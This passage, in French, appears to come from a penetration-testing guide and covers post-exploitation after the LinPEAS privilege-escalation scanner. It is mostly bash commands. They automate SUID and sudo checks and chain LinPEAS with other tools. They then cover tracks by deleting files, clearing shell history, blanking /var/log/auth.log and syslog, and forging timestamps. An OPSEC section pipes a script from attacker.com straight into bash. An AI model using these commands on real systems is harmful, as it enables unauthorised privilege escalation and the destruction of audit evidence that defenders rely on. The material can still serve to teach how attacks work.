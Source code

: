 ### Script post-LinPEAS
```bash
#!/bin/bash
# Script d'exploitation automatique

# Parse des résultats LinPEAS
grep -i "95%" linpeas_output.txt > high_priority.txt

# Test automatique SUID
for binary in $(find / -perm -4000 2>/dev/null); do
    echo "Testing $binary"
    # Test GTFOBins patterns
done

# Test sudo rules
sudo -l > sudo_rules.txt
```

### Intégration avec autres outils
```bash
# Combinaison avec pspy
./pspy64 &
./linpeas.sh

# Avec linux-exploit-suggester
./linux-exploit-suggester.sh

# Avec enum4linux pour shares
enum4linux localhost
```

## 📊 Analyse des Logs et Traces

### Nettoyage post-exploitation
```bash
# Suppression des traces LinPEAS
rm -f linpeas.sh linpeas_output.txt
history -c

# Nettoyage logs système
echo "" > /var/log/auth.log
echo "" > /var/log/syslog

# Restauration timestamps
touch -r /bin/ls /tmp/exploit
```

### OPSEC considerations
```bash
# Exécution discrète
./linpeas.sh 2>/dev/null | grep -E "(95%|90%|85%)"

# Sans écriture sur disque
curl -s https://attacker.com/linpeas.sh | bash

# Via mémoire tmpfs
mount -t tmpfs -o size=100m tmpfs /tmp/linpeas
cd /tmp/linpeas && wget linpeas.sh
```
